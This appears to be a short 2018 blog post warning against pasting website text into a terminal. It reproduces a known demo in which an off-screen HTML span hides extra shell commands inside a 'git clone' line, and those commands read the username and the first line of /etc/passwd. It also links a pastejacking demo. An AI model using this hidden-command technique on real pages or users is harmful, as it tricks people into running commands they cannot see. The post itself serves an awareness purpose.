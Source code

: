 ```yaml
---
layout: post
title: Dangerous Clipboards
date: '2018-04-24 13:11'
---
```


Have you ever cut/copied/pasted into a terminal window? Here's one of a few reasons why you shouldn't:
```
    <p class="codeblock">
      <!-- Oh noes, you found it! credits go to http://thejh.net/misc/website-terminal-copy-paste-->
      git clone
      <span style="position: absolute; left: -100px; top: -100px">/dev/null; clear; echo -n "Hello ";whoami|tr -d '\n';echo -e '!\nThat was a bad idea. Don'"'"'t copy code from websites you don'"'"'t trust!<br>Here'"'"'s the first line of your /etc/passwd: ';head -n1 /etc/passwd<br>git clone </span>
      git://git.kernel.org/pub/scm/utils/kup/kup.git
    </p>
```

### another one:
view-source:https://security.love/Pastejacking/

